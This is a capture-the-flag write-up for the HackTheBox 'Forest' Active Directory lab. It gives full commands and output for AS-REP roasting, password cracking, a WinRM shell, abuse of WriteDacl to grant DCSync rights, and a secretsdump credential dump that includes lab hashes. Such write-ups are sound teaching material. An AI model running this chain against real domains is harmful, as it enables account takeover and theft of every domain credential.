



# Forest - HackTheBox Writeup

[Forest](https://app.hackthebox.com/machines/Forest) is an Easy Windows machine on HackTheBox. Anonymous RPC enumeration reveals a user list, one of which is vulnerable to AS-REP Roasting, giving a foothold as `svc-alfresco`. Nested group membership (Service Accounts → Privileged IT Accounts → Account Operators) lets that account add a new user into `Exchange Windows Permissions`, which holds `WriteDacl` on the domain — enough to grant DCSync rights and dump every credential in the domain, including the Administrator hash.

## Box Info

- **Name:** Forest
- **Difficulty:** Easy
- **OS:** Windows
- **Release Date:** 12 October 2019
- **Retire Date:** 21 March 2020
- **Creator:** egre55 & mrb3n

------



## Recon

### nmap

> **nmap -p- --min-rate 1000 -oA nmap_forests 10.129.95.210**

```bash
┌──🦊 T4T4R1S  IP ➜  10.211.55.3   ~/machines/forest
└─👀 ➜ nmap -p- --min-rate 1000 -oA nmap_forests 10.129.95.210
Starting Nmap 7.95 ( https://nmap.org ) at 2026-10-07 22:32 EEST
Stats: 0:01:06 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 99.82% done; ETC: 22:33 (0:00:00 remaining)
Nmap scan report for 10.129.95.210
Host is up (0.18s latency).
Not shown: 65511 closed tcp ports (reset)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49670/tcp open  unknown
49680/tcp open  unknown
49681/tcp open  unknown
49684/tcp open  unknown
49697/tcp open  unknown
49857/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 67.22 seconds

┌──🦊 T4T4R1S  IP ➜  10.211.55.3   ~/machines/forest
└─👀 ➜
```

The initial nmap scan looks like an Active Directory environment, so let's dig deeper:

> **nmap -p53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001 -sCV -oN deep_forests 10.129.95.210**

```bash
┌──🦊 T4T4R1S  IP ➜  10.211.55.3   ~/machines/forest
└─👀 ➜ nmap -p53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001 -sCV -oN deep_forests 10.129.95.210
Starting Nmap 7.95 ( https://nmap.org ) at 2026-10-07 22:34 EEST
Nmap scan report for 10.129.95.210
Host is up (0.22s latency).

PORT      STATE SERVICE      VERSION
53/tcp    open  domain       Simple DNS Plus
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2026-10-08 07:21:54Z)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf       .NET Message Framing
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
|_clock-skew: mean: 14h07m03s, deviation: 4h02m30s, median: 11h47m02s
| smb2-time:
|   date: 2026-10-08T07:22:07
|_  start_date: 2026-10-08T07:11:46
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled and required
| smb-os-discovery:
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: FOREST
|   NetBIOS computer name: FOREST\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: FOREST.htb.local
|_  System time: 2026-10-08T00:22:06-07:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 34.60 seconds
```

The nmap scan confirms a domain named `htb.local`, with plenty of open ports. The three worth enumerating first are SMB, LDAP, and RPC, plus a DNS zone-transfer attempt.

------

## DNS / LDAP / SMB / RPC Enumeration

### DNS (Failed)

Enumerate DNS to see if a zone transfer is possible — if it works, we'd dump every DNS record (network topology, hostnames, and roles) without authentication. It failed:

> **dig axfr @10.129.95.210 htb.local**

```bash
┌──🦊 T4T4R1S  IP ➜  10.211.55.3   ~/machines/forest
└─👀 ➜ dig axfr @10.129.95.210 htb.local

; <<>> DiG 9.20.9-1-Debian <<>> axfr @10.129.95.210 htb.local
; (1 server found)
;; global options: +cmd
; Transfer failed.
```

------

### Enumerate SMB

SMB is open on this machine, so let's try to access it and list the shares:

```bash
┌──🦊 T4T4R1S  IP ➜  10.211.55.3   ~/machines/forest
└─👀 ➜  smbmap -H 10.129.95.210

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
-----------------------------------------------------------------------------
SMBMap - Samba Share Enumerator v1.10.7 | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[\] Checking for open ports...                                                                                                  [|] Checking for open ports...                                                                                                  [/] Checking for open ports...                                                                                                  [*] Detected 1 hosts serving SMB
[*] Established 1 SMB connections(s) and 0 authenticated session(s)
[!] Access denied on 10.129.95.210, no fun for you...
[*] Closed 1 connections

┌──🦊 T4T4R1S  IP ➜  10.211.55.3   ~/machines/forest
└─👀 ➜ smbclient  -L //10.129.95.210
Password for [WORKGROUP\T4T4R1S]:
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.129.95.210 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available

┌──🦊 T4T4R1S  IP ➜  10.211.55.3   ~/machines/forest
└─👀 ➜
```

------

### Enum RPC 135

> **rpcclient -U "" -N 10.129.95.210**

```bash
┌──🦊 T4T4R1S  IP ➜  10.211.55.3   ~/machines/forest
└─👀 ➜ rpcclient -U "" -N 10.129.95.210
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
.
.
.
.
user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]
user:[andy] rid:[0x47e]
user:[mark] rid:[0x47f]
user:[santi] rid:[0x480]
rpcclient $>
```

Found a list of users:

```
Administrator
Guest
krbtgt
sebastien
sebastien
lucinda
svc-alfresco
andy
mark
santi
```

------

## Initial Access — AS-REP Roasting

> **What is this?** AS-REP Roasting targets user accounts with the `DONT_REQ_PREAUTH` flag set. When Kerberos pre-authentication is disabled, an attacker can request an AS-REP (Ticket Granting Ticket response) for any such user without knowing their password. The AS-REP contains encrypted data that can be cracked offline to recover the user's plaintext password.

Now let's perform an AS-REP Roasting attack using the usernames found via rpcclient:

> for user in $(cat users.txt); do impacket-GetNPUsers -no-pass -dc-ip 10.129.95.210 -request -outputfile hash.txt htb.local/$user | grep -v Impacket; done

```bash
┌──🦊 T4T4R1S  IP ➜  10.211.55.3   ~/machines/forest
└─👀 ➜ for user in $(cat users.txt); do  impacket-GetNPUsers -no-pass  -dc-ip 10.129.95.210 -request -outputfile hash.txt  htb.local/$user 

[*] Getting TGT for sebastien
[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for Administrator
[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for sebastien
[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for krbtgt
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)

[*] Getting TGT for svc-alfresc
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)

[*] Getting TGT for svc-alfresco
$krb5asrep$23$svc-alfresco@HTB.LOCAL:33ee0d5578549ef4a756042135b95e81$f8132f402732fa5099a7814b84cf8b0c7a5fc79a69e4435b66e8c471be4a2507bc8f63193cbb3bb63941dd19424035b3e72a90c04fe3b54ce5a2eed00d8feed37b6cd0dbd39471c827ca87665429e306e1bf6d78e0417bd1d02e64a0098f7909fc76117c635234061dbcf06f927d676716fdbb76c0391ef637ce73912cdd31edce7dc6a4eb566da1f504ef7a7e9856c6510493fb0c7334f2776537a98721b909c236dd05c7a3fd32be00fcd21d0b8994f07e04c918d94ca731632b16ebe2791d136cfe80459fd012cac0a68b4f2f26301ed4f411f04c95aac65081a3222d39094843ed58245f
```

Got the `svc-alfresco` hash — time to crack it with hashcat:

```bash
┌──🦊 T4T4R1S  IP ➜  10.211.55.3   ~/machines/forest
└─👀 ➜ hashcat -m 18200 hash.txt /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

$krb5asrep$23$svc-alfresco@HTB.LOCAL:33ee0d5578549ef4a756042135b95e81$f8132f402732fa5099a7814b84cf8b0c7a5fc79a69e4435b66e8c471be4a2507bc8f63193cbb3bb63941dd19424035b3e72a90c04fe3b54ce5a2eed00d8feed37b6cd0dbd39471c827ca87665429e306e1bf6d78e0417bd1d02e64a0098f7909fc76117c635234061dbcf06f927d676716fdbb76c0391ef637ce73912cdd31edce7dc6a4eb566da1f504ef7a7e9856c6510493fb0c7334f2776537a98721b909c236dd05c7a3fd32be00fcd21d0b8994f07e04c918d94ca731632b16ebe2791d136cfe80459fd012cac0a68b4f2f26301ed4f411f04c95aac65081a3222d39094843ed58245f:s3rvice
```

Now we have a username and password for a service account to gain initial access, and can log in using evil-winrm. Credentials obtained: `htb\svc-alfresco`:`s3rvice`.

------

## Foothold / Shell Access

> **evil-winrm -i 10.129.95.210 -u svc-alfresco -p s3rvice**

```bash
┌──🦊 T4T4R1S  IP ➜  10.211.55.3   ~/machines/forest
└─👀 ➜ evil-winrm -i 10.129.95.210 -u svc-alfresco -p s3rvice

Evil-WinRM shell v3.7

Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents>
```

------

## Privilege Escalation — BloodHound Path

Let's collect information with bloodhound-python to get the full picture of the domain and find a way to compromise it:

```bash
┌──🦊 T4T4R1S  IP ➜  10.211.55.3   ~
└─👀 ➜ bloodhound-python -d htb.local -u svc-alfresco -p 's3rvice' --zip   -ns 10.129.95.210
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: htb.local
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (FOREST.htb.local:88)] [Errno -2] Name or service not known
INFO: Connecting to LDAP server: FOREST.htb.local
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 2 computers
INFO: Found 32 users
INFO: Connecting to LDAP server: FOREST.htb.local
INFO: Found 76 groups
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: EXCH01.htb.local
INFO: Querying computer: FOREST.htb.local
INFO: Done in 00M 28S
INFO: Compressing output into 20261007233231_bloodhound.zip
```

Now we have `20261007233231_bloodhound.zip`, used to build a graph that leads to the path to Domain Admin.



**1st link:** `svc-alfresco` is a member of the `Service Accounts` group.

**2nd link:** `Service Accounts` group is a member of `Privileged IT Accounts` group, thereby inheriting all of `Privileged IT Accounts'` attributes.

**3rd link:** `Privileged IT Accounts` group is a member of `Account Operators` group, thereby inheriting all `Account Operators'` attributes.

**4th link:** `Account Operators'` group members can add any user into the `Exchange Windows Permissions` group.

**5th link:** `Exchange Windows Permissions'` group members can perform a write domain access control list (`WriteDacl`) on the domain — this effectively means we can modify the permissions of objects.

**6th link:** This domain contains the administrator user.

Using this abuse path we can perform a DCSync attack to get all passwords and hashes in the domain. This is done by adding a new user, adding them to the `Exchange Windows Permissions` group, granting that user DCSync rights, and dumping all creds using secretsdump.

------

### Add New User

Add a new user called `mustafa` with password `password123`:

> **net user mustafa password123 /add /domain**

```bash
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net user mustafa password123  /add /domain
The command completed successfully.
```

Add this user to the `Exchange Windows Permissions` group:

> **net groups "Exchange Windows Permissions" /add mustafa**

```bash
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net groups "Exchange Windows Permissions" /add mustafa
The command completed successfully.
```

Verify the user was added to the group:

> **net groups "Exchange Windows Permissions"**

```bash
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net groups "Exchange Windows Permissions"
Group name     Exchange Windows Permissions
Comment        This group contains Exchange servers that run Exchange cmdlets on behalf of users via the management service. Its members have permission to read and modify all Windows accounts and groups. This group should not be deleted.

Members

-------------------------------------------------------------------------------
mustafa
The command completed successfully.
```

------

## DCSync / Domain Admin

> **What is this?** Domain Controllers replicate the directory among themselves using the DRSUAPI protocol, which requires GetChanges + GetChangesAll on the domain object. DCSync abuses that legitimate mechanism: with those rights (Domain Admin, or a delegated ACL), an attacker asks a DC to replicate any account's hash — including KRBTGT — without ever running code on the DC itself, making it the cleanest path to full domain compromise.

`mustafa` was added to the `Exchange Windows Permissions` group, which has `WriteDacl`, so we can use it to grant `mustafa` DCSync rights. This is performed from the Linux attack box using impacket:

> **impacket-dacledit -action 'write' -rights 'DCSync' -principal 'mustafa' -dc-ip 10.129.68.46 -target-dn 'DC=htb,DC=local' 'htb'/'mustafa':'password123'**

This command uses the `Exchange Windows Permissions` group's WriteDacl permission to add DCSync rights to the `mustafa` account.

```bash
┌──🦊 T4T4R1S  IP ➜  10.211.55.3   ~/machines/forest
└─👀 ➜ impacket-dacledit -action 'write' -rights 'DCSync' -principal 'mustafa' -dc-ip 10.129.68.46 -target-dn 'DC=htb,DC=local' 'htb'/'tayeb':'password'
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies

[*] DACL backed up to dacledit-20261008-182133.bak
[*] DACL modified successfully!
```

------

## Dumping the Administrator NTLM Hash

Using impacket-secretsdump to dump all domain creds:

> **impacket-secretsdump htb.local/mustafa:password123@10.129.68.46**

```bash
┌──🦊 T4T4R1S  IP ➜  10.211.55.3   ~/machines/forest
└─👀 ➜ impacket-secretsdump htb.local/mustafa:password123@10.129.68.46
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\$331000-VK4ADACQNUCA:1123:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_2c8eef0a09b545acb:1124:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_ca8c2ed5bdab4dc9b:1125:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_75a538d3025e4db9a:1126:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_681f53d4942840e18:1127:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_1b41c9286325456bb:1128:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_9b69f1b9d2cc45549:1129:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_7c96b981967141ebb:1130:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_c75ee099d0a64c91b:1131:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_1ffab36a2f5f479cb:1132:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\HealthMailboxc3d7722:1134:aad3b435b51404eeaad3b435b51404ee:4761b9904a3d88c9c9341ed081b4ec6f:::
htb.local\HealthMailboxfc9daad:1135:aad3b435b51404eeaad3b435b51404ee:5e89fd2c745d7de396a0152f0e130f44:::
htb.local\HealthMailboxc0a90c9:1136:aad3b435b51404eeaad3b435b51404ee:3b4ca7bcda9485fa39616888b9d43f05:::
htb.local\HealthMailbox670628e:1137:aad3b435b51404eeaad3b435b51404ee:e364467872c4b4d1aad555a9e62bc88a:::
htb.local\HealthMailbox968e74d:1138:aad3b435b51404eeaad3b435b51404ee:ca4f125b226a0adb0a4b1b39b7cd63a9:::
htb.local\HealthMailbox6ded678:1139:aad3b435b51404eeaad3b435b51404ee:c5b934f77c3424195ed0adfaae47f555:::
htb.local\HealthMailbox83d6781:1140:aad3b435b51404eeaad3b435b51404ee:9e8b2242038d28f141cc47ef932ccdf5:::
htb.local\HealthMailboxfd87238:1141:aad3b435b51404eeaad3b435b51404ee:f2fa616eae0d0546fc43b768f7c9eeff:::
htb.local\HealthMailboxb01ac64:1142:aad3b435b51404eeaad3b435b51404ee:0d17cfde47abc8cc3c58dc2154657203:::
htb.local\HealthMailbox7108a4e:1143:aad3b435b51404eeaad3b435b51404ee:d7baeec71c5108ff181eb9ba9b60c355:::
htb.local\HealthMailbox0659cc1:1144:aad3b435b51404eeaad3b435b51404ee:900a4884e1ed00dd6e36872859c03536:::
htb.local\sebastien:1145:aad3b435b51404eeaad3b435b51404ee:96246d980e3a8ceacbf9069173fa06fc:::
htb.local\lucinda:1146:aad3b435b51404eeaad3b435b51404ee:4c2af4b2cd8a15b1ebd0ef6c58b879c3:::
htb.local\svc-alfresco:1147:aad3b435b51404eeaad3b435b51404ee:9248997e4ef68ca2bb47ae4e6f128668:::
htb.local\andy:1150:aad3b435b51404eeaad3b435b51404ee:29dfccaf39618ff101de5165b19d524b:::
htb.local\mark:1151:aad3b435b51404eeaad3b435b51404ee:9e63ebcb217bf3c6b27056fdcb6150f7:::
htb.local\santi:1152:aad3b435b51404eeaad3b435b51404ee:483d4c70248510d8e0acb6066cd89072:::
mustafa:10101:aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da:::
tayeb:10102:aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c:::
FOREST$:1000:aad3b435b51404eeaad3b435b51404ee:bbe18ea07a09c9f2974b75b5a6975b13:::
EXCH01$:1103:aad3b435b51404eeaad3b435b51404ee:050105bb043f5b8ffc3a9fa99b5ef7c1:::
[*] Kerberos keys grabbed
htb.local\Administrator:aes256-cts-hmac-sha1-96:910e4c922b7516d4a27f05b5ae6a147578564284fff8461a02298ac9263bc913
htb.local\Administrator:aes128-cts-hmac-sha1-96:b5880b186249a067a5f6b814a23ed375
htb.local\Administrator:des-cbc-md5:c1e049c71f57343b
krbtgt:aes256-cts-hmac-sha1-96:9bf3b92c73e03eb58f698484c38039ab818ed76b4b3a0e1863d27a631f89528b
krbtgt:aes128-cts-hmac-sha1-96:13a5c6b1d30320624570f65b5f755f58
krbtgt:des-cbc-md5:9dd5647a31518ca8
htb.local\HealthMailboxc3d7722:aes256-cts-hmac-sha1-96:258c91eed3f684ee002bcad834950f475b5a3f61b7aa8651c9d79911e16cdbd4
htb.local\HealthMailboxc3d7722:aes128-cts-hmac-sha1-96:47138a74b2f01f1886617cc53185864e
htb.local\HealthMailboxc3d7722:des-cbc-md5:5dea94ef1c15c43e
htb.local\HealthMailboxfc9daad:aes256-cts-hmac-sha1-96:6e4efe11b111e368423cba4aaa053a34a14cbf6a716cb89aab9a966d698618bf
htb.local\HealthMailboxfc9daad:aes128-cts-hmac-sha1-96:9943475a1fc13e33e9b6cb2eb7158bdd
htb.local\HealthMailboxfc9daad:des-cbc-md5:7c8f0b6802e0236e
htb.local\HealthMailboxc0a90c9:aes256-cts-hmac-sha1-96:7ff6b5acb576598fc724a561209c0bf541299bac6044ee214c32345e0435225e
htb.local\HealthMailboxc0a90c9:aes128-cts-hmac-sha1-96:ba4a1a62fc574d76949a8941075c43ed
htb.local\HealthMailboxc0a90c9:des-cbc-md5:0bc8463273fed983
htb.local\HealthMailbox670628e:aes256-cts-hmac-sha1-96:a4c5f690603ff75faae7774a7cc99c0518fb5ad4425eebea19501517db4d7a91
htb.local\HealthMailbox670628e:aes128-cts-hmac-sha1-96:b723447e34a427833c1a321668c9f53f
htb.local\HealthMailbox670628e:des-cbc-md5:9bba8abad9b0d01a
htb.local\HealthMailbox968e74d:aes256-cts-hmac-sha1-96:1ea10e3661b3b4390e57de350043a2fe6a55dbe0902b31d2c194d2ceff76c23c
htb.local\HealthMailbox968e74d:aes128-cts-hmac-sha1-96:ffe29cd2a68333d29b929e32bf18a8c8
htb.local\HealthMailbox968e74d:des-cbc-md5:68d5ae202af71c5d
htb.local\HealthMailbox6ded678:aes256-cts-hmac-sha1-96:d1a475c7c77aa589e156bc3d2d92264a255f904d32ebbd79e0aa68608796ab81
htb.local\HealthMailbox6ded678:aes128-cts-hmac-sha1-96:bbe21bfc470a82c056b23c4807b54cb6
htb.local\HealthMailbox6ded678:des-cbc-md5:cbe9ce9d522c54d5
htb.local\HealthMailbox83d6781:aes256-cts-hmac-sha1-96:d8bcd237595b104a41938cb0cdc77fc729477a69e4318b1bd87d99c38c31b88a
htb.local\HealthMailbox83d6781:aes128-cts-hmac-sha1-96:76dd3c944b08963e84ac29c95fb182b2
htb.local\HealthMailbox83d6781:des-cbc-md5:8f43d073d0e9ec29
htb.local\HealthMailboxfd87238:aes256-cts-hmac-sha1-96:9d05d4ed052c5ac8a4de5b34dc63e1659088eaf8c6b1650214a7445eb22b48e7
htb.local\HealthMailboxfd87238:aes128-cts-hmac-sha1-96:e507932166ad40c035f01193c8279538
htb.local\HealthMailboxfd87238:des-cbc-md5:0bc8abe526753702
htb.local\HealthMailboxb01ac64:aes256-cts-hmac-sha1-96:af4bbcd26c2cdd1c6d0c9357361610b79cdcb1f334573ad63b1e3457ddb7d352
htb.local\HealthMailboxb01ac64:aes128-cts-hmac-sha1-96:8f9484722653f5f6f88b0703ec09074d
htb.local\HealthMailboxb01ac64:des-cbc-md5:97a13b7c7f40f701
htb.local\HealthMailbox7108a4e:aes256-cts-hmac-sha1-96:64aeffda174c5dba9a41d465460e2d90aeb9dd2fa511e96b747e9cf9742c75bd
